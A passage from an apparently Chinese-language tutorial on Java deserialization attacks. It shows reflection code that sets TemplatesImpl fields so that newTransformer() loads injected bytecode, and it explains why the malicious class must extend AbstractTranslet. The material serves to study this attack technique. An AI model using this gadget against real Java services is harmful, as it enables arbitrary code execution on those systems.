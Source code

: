 ```java
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        // 进入 defineTransletClasses() 方法需要的条件
        setFieldValue(templates, "_name", "name" + System.nanoTime());
        setFieldValue(templates, "_class", null);
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        templates.newTransformer();

    }

    public static void main(String[] args) {
        try {
            createPseson();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

但是这里为什么要设置恶意类的父类为 AbstractTranslet 呢？

因为在 defineTransletClasses 这个方法中存在一个判断：

![1](/img/349.png)

我们需要令`_transletIndex`为 i ，此时的 i 为0，默认状态下`_transletIndex`的值为 -1 ，而如果`_transletIndex`的值小于0，就会抛出异常：

![1](/img/350.png)

这里我们也不能通过反射的方式来设置`_transletIndex`的值，因为还是会进入到`_auxClasses`方法中，此方法会报出错误，我们依旧无法正常的序列化。

![1](/img/351.png)
